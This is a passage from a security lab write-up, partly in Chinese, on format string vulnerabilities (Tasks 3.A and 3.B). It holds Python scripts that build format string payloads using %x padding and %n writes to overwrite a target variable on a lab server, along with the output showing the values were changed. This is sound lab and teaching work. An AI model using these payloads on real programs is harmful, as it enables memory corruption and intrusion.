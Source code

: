 改为任意值

```python
#!/usr/bin/python3
  
import sys
N = 1500
content = bytearray(0x0 for i in range(N))
secret  = 0x080e5068
content[0:4]  =  (secret).to_bytes(4,byteorder='little')
data = "%x"*63+"\ntarget changed:%n"
data = (data).encode('latin-1')
content[4:4+len(data)] = data
with open('bad', 'wb') as f:
  f.write(content)
```

```
server-10.9.0.5 | target changed:The target variable's value (after):  0x000000fc
```



## Task 3.B

 Change the value to 0x5000. In this sub-task, we need to change the content of the
target variable to a specific value 0x5000. Your task is considered as a success only if the vari-
able’s value becomes 0x5000.

将值更改为0x5000

```python
#!/usr/bin/python3
  
import sys
N = 1500
content = bytearray(0x0 for i in range(N))
secret  = 0x080e5068
content[0:4]  =  (secret).to_bytes(4,byteorder='little')
data = "%.8x"*62 + "%.19980x" + "%n"
data = (data).encode('latin-1')
content[4:4+len(data)] = data
with open('bad', 'wb') as f:
  f.write(content)

```

```
0000000000005dcThe target variable's value (after):  0x00005000
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```



## Task 3.C
